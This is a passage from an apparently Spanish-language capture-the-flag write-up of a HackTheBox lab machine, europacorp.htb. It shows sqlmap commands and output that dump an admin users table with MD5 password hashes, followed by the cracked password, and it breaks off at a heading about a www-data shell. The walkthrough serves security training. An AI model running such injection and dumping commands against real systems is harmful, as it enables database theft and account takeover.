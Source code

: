 ```bash
[14:24:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[14:24:03] [INFO] fetching tables for database: 'admin'
[14:24:06] [INFO] retrieved: 'users'
Database: admin
[1 table]
+-------+
| users |
+-------+

[14:24:06] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/admin-portal.europacorp.htb'

[*] ending @ 14:24:06 /2023-05-08/
```
Ahora la informacion de la tabla users
```bash
sqlmap -r req.txt --force-ssl --batch -D admin -T users --dump
[14:25:24] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:24] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[14:25:24] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[14:25:24] [INFO] starting 4 processes 
[14:25:33] [WARNING] no clear password(s) found                                                                                                                                                                                              
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+----------------------------------+---------------+
| id | email                | active | password                         | username      |
+----+----------------------+--------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+--------+----------------------------------+---------------+

[14:25:33] [INFO] table 'admin.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
[14:25:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/admin-portal.europacorp.htb'

[*] ending @ 14:25:33 /2023-05-08/
```
Los hashes para john como para admin son el mismo asi que al crackearlo encuentro que la password de ambos es “SuperSecretPassword!”
# Shell como www-data
Enumero la pagina y encuentro el archivo tools.php el cual parece ser un configurador de openvpn.